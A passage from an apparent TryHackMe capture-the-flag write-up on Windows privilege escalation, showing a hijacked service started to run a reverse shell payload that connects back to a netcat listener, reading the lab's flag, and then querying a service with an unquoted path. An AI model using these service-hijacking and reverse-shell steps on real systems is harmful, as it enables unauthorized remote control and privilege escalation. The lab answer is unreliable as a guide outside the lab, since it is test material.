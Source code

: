 15. `sc start <SERVICE>` from the compromised Windows machine to start our target service once again but this time its going to execute our reverse shell payload that'll spawn in a reverse shell that'll connect back to our netcat listener on our attack machine
```PowerShell
C:\PROGRA~2\SYSTEM~1>sc start WindowsScheduler

SERVICE_NAME: WindowsScheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3508
        FLAGS              :
```
```Bash
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.124.176 49783 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

16. `type <FLAG LOCATION>` on our reverse shell to type out the contents of the file containing this task's flag onto our terminal
```PowerShell
C:\Windows\system32>type C:\Users\svcusr1\Desktop\flag.txt     
type C:\Users\svcusr1\Desktop\flag.txt
THM{AT_YOUR_SERVICE}
```

**TASK COMPLETED!**

### Unquoted Service Paths

1. Started this task's machine
2. `sc qc <SERVICE>` from the comrpomised Windows machine to query the configuration of our target service, which was "disk sorter enterprise" because after executing this command, we saw that its `BINARY_PATH_NAME` had an unquoted service path, meaning that its associated executable wasn't properly quoted to account for spaces on the command
```PowerShell
C:\Users\thm-unpriv>sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\Disk.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```
